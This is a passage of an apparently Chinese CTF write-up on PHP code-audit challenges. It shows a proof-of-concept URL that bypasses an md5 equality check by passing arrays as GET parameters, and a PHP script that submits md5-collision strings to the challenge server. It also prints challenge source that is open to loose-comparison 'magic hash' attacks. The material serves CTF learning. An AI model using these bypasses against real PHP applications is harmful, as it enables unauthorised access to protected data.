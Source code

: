代码审计题目, 看得出他是需要接受两个GET参数， `ha` 和 `1s`, `if`的语句表示这两个字符串不能相同，并且md5值相等就会打印出flag的值。

我第一反应是md5碰撞，网上找了下， 在[stack overflow](http://stackoverflow.com/questions/1756004/can-two-different-strings-generate-the-same-md5-hash-code) 找到了一个例子，但是提交却一直不对，于是问了出题人，出题人提示php里面数组是不可哈希的(突然想起来py里面也是这样的)，于是poc如下

```text
 http://119.29.16.200:5009/?ha[]=123&1s[]=4
```

 直接请求如下网址即可。

 另外，出题人用我的思路做出来了...把之前的字符串转成bin，然后urlencode请求过去，php的exp如下


```php
<?php
$str1 = file_get_contents('1.txt');
$str2 = file_get_contents('2.txt');
echo $str1."<br>";
echo $str2."<br>";
echo md5($str1)."<br>";
echo md5($str2)."<br>";
var_dump($str1 === $str2);
$str1 = urlencode($str1);
$str2 = urlencode($str2);
$url="http://119.29.16.200:5009/?ha=$str1&1s=$str2";
var_dump($url);
$html = file_get_contents($url);
var_dump($html);
?>
```

##### 文件是这两个
[1.txt](/img/scuctf/1.txt) 以及 [2.txt](/img/scuctf/2.txt)


我用python没有复现这个东西，用的urllib.urlencode()但是不行，试过了py2和py3都不行，遂放弃。

## 0x02哈希与科学计数法
进去就让我们查看源代码，看到有个hidden的1.txt, 打开看又是一个代码审计题目


```php
<!DOCTYPE html>
<html xmlns="http://www.w3.org/1999/xhtml">
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
        <title>哈希与科学计数法的邂逅</title>
    </head>
    <body>
        <p>view-source</p>
        <a href="./1.txt" style="visibility: hidden;">有些好东西</a>
    </body>
</html>
<?php
require_once('flag.php');
$flag = $_GET['flag'];
if (!$flag) { exit(); }
if (strstr($flag,'200')) {
    exit('***');
}else {
    if (md5($flag) == md5('s1091221200a')) {
        echo $_FLAG;
    }else {
        echo '***';
    }
}
?>
```